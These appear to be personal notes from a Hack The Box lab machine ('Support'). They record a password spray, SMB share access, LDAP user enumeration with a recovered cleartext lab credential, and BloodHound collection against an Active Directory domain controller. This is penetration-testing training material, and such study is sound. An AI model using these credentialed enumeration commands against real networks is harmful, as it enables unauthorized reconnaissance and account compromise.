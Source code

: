 ![[Pasted image 20241101092512.png]]

## Password Spray with NetExec

![[Pasted image 20241101092238.png]]
```
support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

# More Enumeration
## SMB Enumeration as ldap
```
smbclient \\\\10.129.123.182\\SYSVOL -U 'support.htb\ldap'
```

## Password Policy
GptTmpl.inf
![[Pasted image 20241101094428.png]]

## AD Enumeration

```
ldapsearch -x -H ldap://10.129.123.182 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -x -b "DC=SUPPORT,DC=HTB" -s sub "(&(objectclass=user))" | grep sAMAccountName 

ldapsearch -x -H ldap://10.129.123.182 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -x -b "DC=SUPPORT,DC=HTB" -s sub "(&(objectclass=user))" | grep description
```

```
ldapsearch -x -H ldap://10.129.123.182 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -x -b "DC=SUPPORT,DC=HTB" -s sub "(&(objectclass=user))"
```

not much... also tried GetUserSPNs.py and got nothing.. moving on

## Bloodhound

```
bloodhound-python -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -dc dc.support.htb -ns 10.129.123.182 -c All
```

```
sudo neo4j start
```
neo4j:bloodhound

operatingSystem: Windows Server 2022 Standard
operatingSystemVersion: 10.0 (20348)
